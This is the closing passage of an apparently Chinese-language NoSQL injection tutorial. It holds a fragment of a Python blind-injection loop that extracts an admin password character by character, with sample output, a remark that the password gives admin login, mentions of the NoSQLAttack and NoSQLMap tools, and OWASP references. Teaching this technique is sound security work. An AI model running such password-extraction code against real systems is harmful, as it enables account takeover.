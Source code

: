 ```python
            #r = requests.post(url=url, data=post_payload)
            if '但没完全登录' in r.content.decode():
                print("[+] %s" % (password + c))
                password += c

# 输出:
# [+] 4
# [+] 42
# [+] 422
# [+] 4227
# [+] 42276
# [+] 422766
# ......
# [+] 42276606202db06ad1f29ab6b4a1
# [+] 42276606202db06ad1f29ab6b4a13
# [+] 42276606202db06ad1f29ab6b4a130
# [+] 42276606202db06ad1f29ab6b4a1307
# [+] 42276606202db06ad1f29ab6b4a1307f
```

得到 admin 密码后即可成功登录 admin。

Nosql 注入相关工具
------------

Github上有个叫[NoSQLAttack](https://github.com/youngyangyang04/NoSQLAttack)工具，不过已经没有维护了。

另外还有一个[NoSQLMap](https://github.com/codingo/NoSQLMap)工具，这个项目作者仍在维护。

Ending......
------------

> 参考：
> 
> [https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/05.6-Testing\_for\_NoSQL\_Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
> 
> <https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf>
> 
> <https://www.tr0y.wang/2019/04/21/MongoDB%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/index.html>
> 
> <https://cloud.tencent.com/developer/article/1602092>
> 
> <https://www.anquanke.com/post/id/97211#h2-10>
> 
> <https://www.runoob.com/mongodb/nosql.html>
> 
> <https://blog.szfszf.top/article/27/>
> 
> <https://www.ddosi.com/b292/>
> 
> <https://github.com/youngyangyang04/NoSQLInjectionAttackDemo>
> 
> <https://github.com/ricardojoserf/NoSQL-injection-example>